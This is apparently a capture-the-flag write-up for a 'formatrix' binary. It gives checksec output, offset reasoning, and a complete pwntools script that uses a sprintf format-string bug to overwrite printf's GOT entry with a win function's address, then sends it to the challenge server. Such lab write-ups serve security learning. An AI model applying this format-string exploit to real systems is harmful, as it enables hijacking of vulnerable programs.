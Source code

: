 * `checksec` tedious: no PIE and no RELRO

  ```
  Arch:       amd64-64-little
  RELRO:      No RELRO
  Stack:      No canary found
  NX:         NX enabled
  PIE:        No PIE (0x400000)
  SHSTK:      Enabled
  IBT:        Enabled
  Stripped:   No
  ```

* overwrite printf addr to win addr by exploiting sprintf, since printf no vulns
* offset: 5th, but buffer shifts from rbp-0x200 -> rbp-0x600 between fgets and sprintf, 1024bytes, which means: the newer offset should be 5 + 1024/8 = 133.

* script

	```
	# printf: 0x403580
	# win: 0x4011d6
	
	
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 4001)
	    # p = process('./formatrix')
	else:
	    # p fget pws *loop+179
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./formatrix',
	                  gdbscript='''
	                  b *0x401319
	                  c
	                  ''')
	
	# win_addr = p64(0x4011d6)
	prinf_addr_str = "0x403580"
	prinf_int = int(prinf_addr_str, 16)
	
	# payload = b"%134$lln"
	# payload += p64(prinf_int)
	
	payload = (b"%211c...")  # 133th -> 214 -> 0xd6
	payload += (b"%143$hhn")  # 134th
	
	payload += (b"%55c....")  # 135th -> 0x11 + 256 -214 = 59 -> 0x11
	payload += (b"%144$hhn")  # 136
	
	payload += (b"%43c....")  # 137th -> 0x40 - 0x11 =  47
	payload += (b"%145$hhn")  # 138
	
	payload += (b"%189c...")  # 139th -> 0x00 + 256 - 0x40 = 192
	payload += (b"%146$hhn")  # 140th
	
	payload += (b"%147$hhn")  # 141th
	payload += (b"%148$hhn")  # 142th
	
	payload += p64(prinf_int)  # 143
	payload += p64(prinf_int + 1)  # 144
	payload += p64(prinf_int + 2)  # 145
	payload += p64(prinf_int + 3)  # 146
	payload += p64(prinf_int + 4)  # 147
	payload += p64(prinf_int + 5)  # 148
	
	print('payload:', payload)
	
	p.sendlineafter(b': ', payload)
	
	p.interactive()
	
	```
